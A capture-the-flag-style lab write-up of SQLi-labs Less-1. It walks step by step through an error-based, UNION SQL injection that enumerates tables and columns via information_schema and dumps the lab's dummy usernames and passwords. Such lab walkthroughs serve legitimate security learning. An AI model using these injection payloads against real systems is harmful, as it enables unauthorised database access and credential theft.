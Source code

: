 Hello guys,

This is the write up for Less-1 - " GET-Error Based- Single Quotes - String"


started with a [URL].../Less-1/ page, which instructed me to input the ID as parameter with numeric value.

So I start with adding ```?id=1``` after the URL and got 

```Your Login name:Dumb Your Password:Dumb```

in the page.

and using different numbers after 2, I got different Login names and passwords.

As the name of the Lesson suggests I start with a single quote Error

so I type a single quote ... ```[URL]/?id=1'```
and an error is returned ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the 
right syntax to use near ''1'' LIMIT 0,1' at line 1```

So it seemd like ```?id=x```, is going into an sql command like

```SELECT _____ FROM _____ WHERE id = 'x';```

This is because there are odd number of single quotes.

However, I continue by trying to find out the number of columns in the table from which the usernames and passwords are printed from, by adding 

```UNION SELECT 1 -- -```
It returned an error: 

``` The used SELECT statements have a different number of columns ```
so i continued increasing till an error wasnt returned at:

```[URL]/?id=1' UNION SELECT 1,2,3 -- -```

However from here on I continued by using a wrong number after id so that the output of my following code can come instead, i proceeded with ```?id=-1```

I proceded by using, ```UNION SELECT 1, group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() -- -```
and  ```Your Login name:emails,referers,uagents,users
        Your Password:3``` was returned so there were 4 tables called emails,referers,uagents and users. It was obvious users had the data of the login information.

so I change the command to 

``` UNION SELECT 1, group_concat(column_name),3 from information_schema.columns WHERE table_name = 'users'-- -```
and ```Your Login name:id,username,password``` was updated
So, the table users had 3 columnns called 'id,username,password'

Therefore to get a dump of this table I finally used,

```UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users-- -```

And the username and password dump was finally printed!!!!

```
Your Login name:Dumb|Dumb,Angelina|I-kill-you,Dummy|p@ssword,secure|crappy,stupid|stupidity,superman|genious,batman|mob!le,admin|admin,admin1|admin1,admin2|admin2,admin3|admin3,dhakkan|dumbo,admin4|admin4
Your Password:3
```


references:

-https://www.sqlinjection.net/numeric-parameters/

-https://portswigger.net/web-security/sql-injection/union-attacks

-https://noobsec.net/sqli-cheatsheet/#Database-Contents


